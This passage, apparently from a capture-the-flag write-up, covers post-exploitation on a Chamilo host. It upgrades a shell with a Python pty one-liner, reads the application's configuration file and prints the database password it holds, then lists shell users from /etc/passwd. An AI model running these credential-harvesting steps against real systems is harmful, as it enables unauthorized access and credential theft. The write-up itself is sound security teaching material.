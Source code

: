 ```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 38 columns 160
```

<div class="bg-cyan-100 dark:bg-cyan-900/20 border-l-4 border-cyan-500 p-4 my-4 rounded-r-lg">
    <p class="text-cyan-800 dark:text-cyan-200">
        <i class="fas fa-info-circle mr-2 text-cyan-500"></i>
        <strong>Tip:</strong> This technique provides a complete interactive shell with command history and auto-completion.
    </p>
</div>

### Configuration File Enumeration

Web applications often store credentials in their configuration files. We examine the Chamilo configuration file:

```bash
cat /var/www/chamilo/app/config/configuration.php
```

<div class="bg-white dark:bg-dark-navbar p-6 rounded-xl shadow-lg my-4 border-l-4 border-green-500">
    <h4 class="text-xl font-bold mb-4 text-green-600 dark:text-green-400 flex items-center">
        <i class="fas fa-key mr-2"></i>Discovered Credentials
    </h4>
    <div class="bg-gray-100 dark:bg-gray-800 p-4 rounded font-mono text-sm">
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">$_configuration['db_user']</span> = <span class="text-green-600 dark:text-green-400">'chamilo'</span>;<br>
            <span class="text-blue-600 dark:text-blue-400">$_configuration['db_password']</span> = <span class="text-green-600 dark:text-green-400">'03F6lY3uXAP2bkW8'</span>;
        </div>
    </div>
</div>

### System User Identification

Checking local users with shell access:

```bash
cat /etc/passwd | grep '/bin/bash'
```

**Result:** The user `mtz` has shell access.

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Plaintext credentials found\!</strong> These credentials are potentially reused elsewhere on the system.
    </p>
</div>
